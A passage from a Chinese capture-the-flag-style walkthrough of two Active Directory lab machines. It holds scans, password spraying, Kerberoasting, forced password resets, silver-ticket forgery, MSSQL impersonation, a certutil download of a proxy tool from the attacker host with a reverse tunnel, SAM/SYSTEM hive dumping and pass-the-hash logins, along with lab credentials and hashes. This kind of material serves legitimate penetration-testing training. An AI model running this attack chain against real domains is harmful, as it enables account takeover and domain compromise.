|_ssl-date: 2025-03-17T05:45:54+00:00; 0s from scanner time.
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc             Microsoft Windows RPC
49679/tcp open  msrpc             Microsoft Windows RPC
49693/tcp open  msrpc             Microsoft Windows RPC
49708/tcp open  msrpc             Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/17%Time=67D7B664%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-17T05:45:16
|_  start_date: N/A

TRACEROUTE (using port 3389/tcp)
HOP RTT     ADDRESS
1   2.76 ms 192.168.45.1
2   2.77 ms 192.168.45.254
3   3.39 ms 192.168.251.1
4   3.48 ms 192.168.159.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 396.10 seconds
```

80http端口存在应用，5985端口404

域控名字叫：nagoya.nagoya-industries.com



smb信息收集无敏感信息

```
smbmap -u guest -H 192.168.159.21
```


在http服务Team目录下面有很多姓名，先拿出来制作字典


尝试爆破cmb，users字典制作为单个姓/名，姓.名，(姓首字母).名，密码使用rockyou.txt，但是我意识到这样爆破太慢了，而且也没找到其他入口点

```
crackmapexec smb 192.168.159.21 -u users.txt -p ~/rockyou.txt
```

去看了其他师傅的WP：**密码是猜测该机器在 2023 年夏季发布的，密码为：Summer2023**(我觉得有点脑洞了

指定密码后爆破就快了

```
crackmapexec smb 192.168.159.21 -u users.txt -p 'Summer2023'
```


这样就可以拿到一个凭证：fiona.clark/Summer2023，尝试smb权限

```
smbmap -H 192.168.159.21 -u 'fiona.clark' -p 'Summer2023'
```


使用smb都登陆看了下

```
smbclient //192.168.159.21/NETLOGON -U 'fiona.clark'%'Summer2023'
```


NETLOGON目录下有一个很有意思的目录：ResetPassword，里面有exe和dll，可能要对exe反编译调试，这里有点知识盲区

但是我们有一个用户凭证，可以尝试使用GetUserSPNs，查看启用SPN的用户

```
impacket-GetUserSPNs -dc-ip 192.168.159.21 nagoya-industries.com/fiona.clark:'Summer2023'
```


导出票据到本地

```
impacket-GetUserSPNs -dc-ip 192.168.159.21 nagoya-industries.com/fiona.clark:'Summer2023' -request -outputfile hashs.txt
```


使用john离线破解


拿到一个凭证：Service1，但是不知道是svc_helpdesk还是svc_mssql，使用smb都试了一下

```
crackmapexec smb 192.168.159.21 -u 'svc_helpdesk' -p 'Service1'
crackmapexec smb 192.168.159.21 -u 'svc_mssql' -p 'Service1'
```


确定凭证之后，使用svc_mssql/Service1尝试evil-winrm登录

```
evil-winrm -i 192.168.159.21 -u svc_mssql -p Service1
```


失败，又尝试了下RDP的也失败了，还是回到NETLOGON目录的ResetPassword文件，下载出来COPY到windows

用IDA打开翻翻，找到了一个凭证信息svc_helpdesk/U299iYRmikYTHDbPbxPoYYfa2j4x4cdg（Web手的倔强


使用该凭证也登录了下evil-winrm，失败.....  看了下hints

用rpcclient登录，查看用户（我这里其实试了svc_mssql，重置不了密码，不知道是网络问题还是什么情况

```
rpcclient -U 'svc_helpdesk' 192.168.159.21
rpcclient $> enumdomusers
```


使用`enumdomgroups`查看组


使用rpcclient修改密码，这个命令在打HTB的Blackfield中使用过，我尝试把每个用户都修改一下，貌似都成功了？！

```
setuserinfo 'christopher.lewis' 23 123@Abc
```


尝试使用evil-winrm登录

```
evil-winrm -i 192.168.159.21 -u 'christopher.lewis' -p '123@Abc'
```


根目录拿到local


联想到mssql，查看1433端口情况



但是nmap扫描没有体现出mssql的端口，上传iox代理出来（80端口防止防火墙）

```
certutil -split -urlcache -f http://192.168.45.161:80/iox/iox.exe iox.exe
靶机运行
.\iox.exe proxy -r 192.168.45.161:80
攻击机运行
./iox proxy -l 80 -l 1080
```


配置proxychains4，使用socks5://127.0.0.1:1080代理，用mssqlclient连接本机1433端口

```
proxychains4 impacket-mssqlclient svc_mssql:'Service1'@127.0.0.1 -windows-auth
```


成功连接，查看服务权限

```
select system_user;
```


低权限，我们已经有凭证了，翻了翻系统也没啥敏感的东西，看了hints，这题最后一步在：白银票据

> **白银票据（Silver Ticket）**：通常由攻击者伪造，只限于特定服务，而不需要通过域控制器。它依赖于服务账户的密钥。攻击者可以通过使用服务账户的 `NTLM Hash`（也就是 `NTHASH`）来伪造银票据，从而获得对特定服务的访问权限。

首先要使用命令`Get-AdDomain`获取域的SID


SID：S-1-5-21-1969309164-1513403977-1686805993

还要拿到用户的NTLM2，这一步可以通过cmd5网站完成


ntlm：e3a0168bc21cfb88b95c954a5b18f57c

制作白银票据

```
impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
```


将票据注入环境变量中

```
export KRB5CCNAME=$PWD/Administrator.ccache
```

修改文件`/etc/krb5.conf`

```
[libdefaults]
	default_realm = NAGOYA-INDUSTRIES.COM
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
	fcc-mit-ticketflags = true

[realms]	
	NAGOYA-INDUSTRIES.COM = {
		kdc = nagoya.nagoya-industries.com
	}

[domain_realm]
	.nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

修改`/etc/hosts`

```
127.0.0.1       localhost nagoya.nagoya-industries.com NAGOYA-INDUSTRIES.COM
```

然后`-k`使用票据认证登录mssql，查看用户

```
impacket-mssqlclient -k nagoya.nagoya-industries.com
select system_user;
```


拿到proof

```
SELECT * FROM OPENROWSET (BULK 'c:\users\administrator\desktop\proof.txt', SINGLE_CLOB) as correlation_name;
```


## Hokkaido (Retired for now)

信息收集：

```
root@iZt4nbifrvtk7cy11744y4Z:~# nmap -p- -Pn -A -sS -T4 192.168.222.40
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-18 12:31 CST
Nmap scan report for 192.168.222.40
Host is up (0.0030s latency).
Not shown: 65502 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-18 04:32:08Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server  15.00.2000.00
| ms-sql-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|_  Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-02T02:13:54
|_Not valid after:  2054-08-02T02:13:54
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|   Product_Version: 10.0.20348
|_  System_Time: 2025-03-18T04:34:37+00:00
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Not valid before: 2025-03-17T04:31:12
|_Not valid after:  2025-09-16T04:31:12
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 403 - Forbidden: Access is denied.
8531/tcp  open  unknown
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49685/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
58538/tcp open  ms-sql-s      Microsoft SQL Server
| ms-sql-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|_  Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-02T02:13:54
|_Not valid after:  2054-08-02T02:13:54
|_ssl-date: 2025-03-18T04:34:52+00:00; 0s from scanner time.
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.80%I=7%D=3/18%Time=67D8F74D%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port58538-TCP:V=7.80%I=7%D=3/18%Time=67D8F776%P=x86_64-pc-linux-gnu%r(m
SF:s-sql-s,25,"\x04\x01\0%\0\0\x01\0\0\0\x15\0\x06\x01\0\x1b\0\x01\x02\0\x
SF:1c\0\x01\x03\0\x1d\0\0\xff\x0f\0\x07\xd0\0\0\0\0");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=3/18%OT=53%CT=1%CU=34939%PV=Y%DS=4%DC=T%G=Y%TM=67D8F7E
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=I%CI=I%TS=A)OPS(O1=M
OS:54ENW8ST11%O2=M54ENW8ST11%O3=M54ENW8NNT11%O4=M54ENW8ST11%O5=M54ENW8ST11%
OS:O6=M54EST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF
OS:=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=
OS:%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=
OS:G%RUD=G)IE(R=N)

Network Distance: 4 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   192.168.222.40:1433: 
|     Version: 
|       name: Microsoft SQL Server 
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 
|_    TCP port: 1433
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-18T04:34:38
|_  start_date: N/A

TRACEROUTE (using port 995/tcp)
HOP RTT     ADDRESS
1   2.88 ms 192.168.45.1
2   2.88 ms 192.168.45.254
3   2.96 ms 192.168.251.1
4   3.12 ms 192.168.222.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.50 seconds
```

域名为：hokkaido-aerospace.com

http端口都看了下，不是404就是403，dirsearch也没结果，使用enum4linux进行信息收集

```
enum4linux 192.168.222.40
```


找到了domain name和sid，可以先记录一下
```
Domain Name: HAERO                                                                                                                                            
Domain Sid: S-1-5-21-3227296914-974780204-1325941497
```

匿名登录smb失败，尝试匿名登录ldap也失败了

```
ldapsearch -x -b "dc=hokkaido-aerospace,dc=com" -H ldap://192.168.222.40
```


那排除法就只剩1433端口的mssql和IIS的漏洞了，使用nmap的`--script=vuln`参数

```
nmap -p 80,8530,8531,139,445,1433,58538 -Pn --script=vuln -T4 192.168.222.40
```


```
./kerbrute  userenum -d hokkaido-aerospace.com --dc 192.168.222.40 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100
```


找到了五个用户，保存为users.txt

```
info
administrator
discovery
maintenance
Discovery
```

爆破密码，使用同样的字典先试试

```
crackmapexec smb 192.168.222.40 --shares -u users.txt -p users.txt --continue-on-success
```


拿到凭证info/info，使用该凭证尝试登录smb

```
smbmap -H 192.168.222.40 -u 'info' -p 'info'
```


成功登录，对homes有写入权限

```
smbclient //192.168.222.40/homes -U 'info'%'info'
```


都是用户目录，里面是空的，但是这样就收集到了用户名信息，在WsusContent目录发现一个anonymousCheckFile.txt，内容为空


UpdateServicesPackages目录为空，把其他目录东西都下载到kali，tree查看


password_reset.txt非常显眼


提到了初始密码为：`Start123!`，加上刚刚收集的用户信息，可以尝试密码喷洒

```
crackmapexec smb 192.168.222.40 -u ./users1.txt -p 'Start123!'
```



对于新收集的用户名爆破失败，试试之前收集的

```
crackmapexec smb 192.168.222.40 -u ./users.txt -p 'Start123!'
```


又一个新的凭证：discovery/Start123!    （这里其实用info用户也可以GetUserSPNs，但是当时我没想到，看了hints才知道的

```
impacket-GetUserSPNs hokkaido-aerospace.com/'discovery':'Start123!' -dc-ip 192.168.222.40 -request
OR
impacket-GetUserSPNs hokkaido-aerospace.com/'info':'info' -dc-ip 192.168.222.40 -request
```


有discovery和maintenance的，discovery用户密码我们已经有了，使用john离线破解maintenance用户的密码


失败了，之前看到一篇文章（**在OSCP(PEN-200)考试中，如果使用rockyou字典破解不出来的，那这个点就不是让你爆破的**

果断放弃，这里又去看hints了，下一个点在mssql认证登录，我拿到了两个用户的账号密码，可以使用windwos认证登录mssql数据库

```
impacket-mssqlclient  'hokkaido-aerospace.com/discovery':'Start123!'@192.168.222.40 -dc-ip 192.168.222.40 -windows-auth
```


成功登录，使用`select system_user;`查看权限为discovery

> 我顺便又看了下info也是能登录的
>
> 

首先尝试查看数据库：

```
SELECT name FROM sys.databases;
```


查看数据库内的表

```
SELECT * FROM hrappdb.information_schema.tables;
```


没有权限了，这里用到了一种提权叫MSSQL模拟提权：https://cloud.tencent.com/developer/article/2431576

查看可以模拟的用户（这里info和discovery用户就有区别了，info是无法模拟hrappdb-reader，搜不出来的

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```


模拟`hrappdb-reader`用户

```
EXECUTE AS LOGIN = 'hrappdb-reader';
```


成功，再去尝试看表

```
SELECT * FROM hrappdb.information_schema.tables;
```


只有一个表sysauth，查看表

```
SELECT * FROM hrappdb.dbo.sysauth;
```


看起来又是一个凭证：hrapp-service/Untimed$Runny

尝试evil-winrm

```
evil-winrm -i 192.168.222.40 -u hrapp-service -H 'Untimed$Runny'
```


又又又失败了，尝试用bloodhound收集信息

```
bloodhound-python -d hokkaido-aerospace.com -u 'hrapp-service' -p 'Untimed$Runny' -gc dc.hokkaido-aerospace.com -c all -ns 192.168.222.40
```


在传递控制对象这里有一个GenericWrite权限


给了工具和命令

```
python3 targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip 192.168.222.40
```


拿到了Hazel.Green用户的hash，使用john破解诶密码



得到凭证：Hazel.Green/haze1988

这里其实顺手又试了下evil-winrm，但是突然意识到端口好像没开(5985/5986

这个题开放了3389RDP端口，尝试了一下RDP也登录失败了，那就回到bloodhound，看看Hazel.Green还能做什么（我疑惑了很久，我的bloodhound中并没有这一步，但是writeup中有(下图)，我将bloodhound-python的`-c DcOnly`参数换成`-c all`还是没有


在help中应该是有提示用RPC的方式去Reset Password 用户：molly.smith的密码

我们使用rpc

```
rpcclient -N  192.168.222.40 -U 'hazel.green%haze1988'
setuserinfo 'molly.smith' 23 123@Abc
```


自此，我有多了一个凭证：molly.smith/haze1988

检查RDP是可以登陆的（这里建议加上`+clipboard`启动剪切板）

```
xfreerdp /u:'molly.smith' /p:'123@Abc' /v:192.168.222.40 +clipboard
```


成功连接RDP，C盘根目录拿到local


查看权限（这个用户可以用管理员权限启动应用，输入用户的账号密码即可，用户属于`tier1 admin`


查看权限


这里不止一个权限能提权，这里用SeBackupPrivilege（这个熟悉点

```
reg save hklm\sam c:\Users\Public\sam
reg save hklm\system c:\Users\Public\system
```


然后下载到kali（这步本来想上传nc.exe传输的，但是有windowsDF杀毒，这里学习到一个新工具：miniserve：https://github.com/svenstaro/miniserve/releases/tag/v0.29.0

```
ln -s /root/tools/miniserve /usr/local/bin/miniserve
miniserve -p 80 . -u --
```


然后就下载下来两个文件了，使用pypykatz破解

```
pypykatz registry --sam sam system
```


winrm登录，拿到proof

```
evil-winrm -i 192.168.222.40 -u administrator -H d752482897d54e239376fddb2a2109e4
```


